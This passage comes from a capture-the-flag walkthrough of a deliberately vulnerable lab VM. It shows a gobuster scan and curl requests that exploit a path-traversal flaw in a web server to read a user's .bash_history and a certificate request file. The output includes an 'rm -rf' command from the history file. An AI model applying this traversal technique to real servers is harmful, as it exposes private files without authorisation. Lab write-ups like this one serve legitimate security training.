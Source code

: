 >[!Note]
>- Remember that `/usr/share` is contemplated in `robots.txt`
>- From `decode/` i cannot access to `/usr/share` or `/home` according fuzzing.

## 3. Vulnerability Exploitation

#### 3.1. Fuzzing to Steve's Directory

```bash
❯ gobuster dir -qu http://192.168.0.106/decode../usr/share/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
/.bashrc              (Status: 200) [Size: 3526]
/.bash_history        (Status: 200) [Size: 38]
/applications         (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/applications/]
/bug                  (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/bug/]
/doc                  (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/doc/]
/file                 (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/file/]
/fonts                (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/fonts/]
/icons                (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/icons/]
/info                 (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/info/]
/java                 (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/java/]
/locale               (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/locale/]
/man                  (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/man/]
/menu                 (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/menu/]
/misc                 (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/misc/]
/pam                  (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/pam/]
/perl5                (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/perl5/]
/perl                 (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/perl/]
/php                  (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/php/]
/tools                (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/tools/]
/xml                  (Status: 301) [Size: 169] [--> http://192.168.0.106/decode../usr/share/xml/]
```

#### 3.1.1. Key File Analysis

Curl to `.bash_history`:

```bash
❯ curl http://192.168.0.106/decode../usr/share/.bash_history
rm -rf /usr/share/ssl-cert/decode.csr
```

**Key points:** 
- `decode.csr` could be related to an SSL certificate or some configuration file on the server.

Let´s read to `decode.csr`

```bash
❯ curl http://192.168.0.106/decode../usr/share/ssl-cert/decode.csr
-----BEGIN CERTIFICATE REQUEST-----
MIIDAzCCAesCAQAwSDERMA8GA1UEAwwISGFja015Vk0xDzANBgNVBAgMBmRlY29k
ZTEPMA0GA1UEBwwGZGVjb2RlMREwDwYDVQQKDAhIYWNrTXlWTTCCASIwDQYJKoZI
hvcNAQEBBQADggEPADCCAQoCggEBANnSG9vEEGPRgDA/cT6NT3sMKsi6dLhKwRgy
PcRpRt1TO63kpY2PxNSgOPpydjUm34nwghy5lPL4+GBXoNOHMhQI1hUVqZXmuFB8
+DCETqXNfV5JnTRMG5tr2m4vV1HNTH+/GUueBm5R/ERu69n2xMADs4nEL3iRjOO/
19sYZIj+ZDaN3MouyqrprWy9PBwKf2VTy4prJh6nTEVSV8oRRtd+nOxfEG6890+P
lF6s0XDpv8V001aiJWSceYPIikvKXaVy45h3JoYzWsQzt3b1R22DuPjAOQ3AvZbp
V68lkF+S1rIa7gsb8oeZI16yPz+GEPVvXGzLyIYhDixdxOCFZaECAwEAAaB2MBkG
CSqGSIb3DQEJBzEMDAppNG1EM2MwZDNyMFkGCSqGSIb3DQEJDjFMMEowDgYDVR0P
AQH/BAQDAgWgMCAGA1UdJQEB/wQWMBQGCCsGAQUFBwMBBggrBgEFBQcDAjAWBgNV
HREEDzANggtoYWNrbXl2bS5ldTANBgkqhkiG9w0BAQsFAAOCAQEAO73W3pTMqSm2
```